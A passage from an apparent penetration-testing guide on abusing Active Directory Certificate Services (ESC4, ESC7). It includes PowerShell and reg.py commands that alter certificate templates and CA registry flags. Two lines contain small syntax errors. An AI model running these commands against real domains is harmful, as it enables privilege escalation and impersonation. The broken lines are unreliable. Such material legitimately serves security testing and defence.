 ```powershell
# 5. Edit Certificate Application Policy Extension
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```

:::


> [!WARNING]
>
> If sensitive access entries are identified, creativity will be the best ally.
> 
> Currently, the best resources for manually abusing this are
> 
> * [Abusing weak ACL on Certificate Templates (by daemon0cc0re)](https://github.com/daem0nc0re/Abusing_Weak_ACL_on_Certificate_Templates)
> * [AD-CS The Certified Pre Owned Attacks (by HTTP418)](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4)


### Certificate Authority (ESC7)

There are two attacks paths for this scenario:

1. If an attacker gains control over a principal that's able to edit the CA server registries (e.g. local admin, or `ManageCA`?), and is able to restart the `CertSrv` service on the server, he can make the CA vulnerable to ESC6 and exploit that
2. Alternatively, if an attacker gains control over a principal that has the `ManageCA` right over the CA object, he can remotely obtain the `ManageCertificates` right and with those two rights combined, approve pending certificate requests, subverting the "CA certificate manager approval" protection (referred to as PREVENT4 in [the research whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)).

#### ESC7 - Exposing to ESC6

If sufficient rights are obtained over the Certificate Authority (`ManageCA`?, local admin account, ...) an attacker could remotely edit the registries, enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute, restart the `CertSvc` service, and abuse [ESC6 (CA configuration abuse)](certificate-authority.md).

::: tabs

=== UNIX-like

The attack can be carried out from UNIX-like systems as follows.

```bash
# /!\ Beware: change placeholder values CA-NAME, VALUE, NEW_VALUE

# query flags
reg.py "$DOMAIN"/"$USER":"$PASSWORD"@$"ADCS_IP" query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA-NAME\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v editflags

# bitwise OR to set the flag if not already (nothing changed if already set)
python3 -c print("NEW_VALUE:", VALUE | 0x40000)

# write flags
reg.py "$DOMAIN"/"$USER":"$PASSWORD"@$"ADCS_IP" add-keyName 'HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA-NAME\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy' -v editflags -vd NEW_VALUE
```
